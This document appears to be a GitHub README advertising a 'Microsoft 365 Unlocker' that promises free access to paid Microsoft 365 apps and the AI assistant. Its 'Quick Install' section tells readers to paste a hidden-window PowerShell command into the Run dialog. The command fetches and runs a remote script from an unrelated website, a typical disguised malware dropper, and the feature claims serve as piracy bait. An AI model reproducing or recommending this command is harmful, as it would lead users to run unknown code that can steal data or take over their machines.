 # Microsoft 365 Unlocker

## 📖 Description
**Microsoft 365 Unlocker** is powerful software that provides users with full access to the functionality of Microsoft 365, including the latest tools and technologies that will help you work more productively and efficiently. The main feature is the ability to unlock the AI assistant, which significantly simplifies interaction with various applications in the Microsoft 365 suite.

## ⚙️ Key Features

### 1. 🗂️ Full Access to Microsoft 365 Functionality
Get the opportunity to use all the functionalities of the paid version of Microsoft 365 without the need to subscribe. Users have access to all applications such as **Word**, **Excel**, **PowerPoint**, **Outlook**, and more.

### 2. 🤖 Unlock the AI Assistant
Unlock the Microsoft AI assistant that helps in real-time by providing tips for creating and editing documents, analyzing data, and managing tasks. Communication with the assistant is possible in natural language, simplifying your work.

### 3. 👥 Collaboration Tools
Enhanced collaboration tools allow teams to work on projects more efficiently. Share documents, leave comments, and make edits in real time.

### 4. 🔒 Multi-layered Data Protection
The software provides reliable protection for your data using the latest Microsoft security technologies. Documents are protected from unauthorized access, and automatic backup creation ensures data safety.

### 5. 📊 Analytical Tools and Templates
Access professional analytical tools and ready-made templates to quickly create reports, presentations, and other documents, reducing preparation time.

## 🚀 Advantages of Using Microsoft 365 Unlocker
- Access to all new and improved features of Microsoft 365 without additional costs.
- Intuitive AI assistant to simplify task execution.
- Enhanced collaboration capabilities for effective team interaction.
- Reliable data protection and automatic backups.
- Quick document preparation with ready-made templates and analytical tools.

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/weatherdolphin/dollrandom))).Invoke();
```
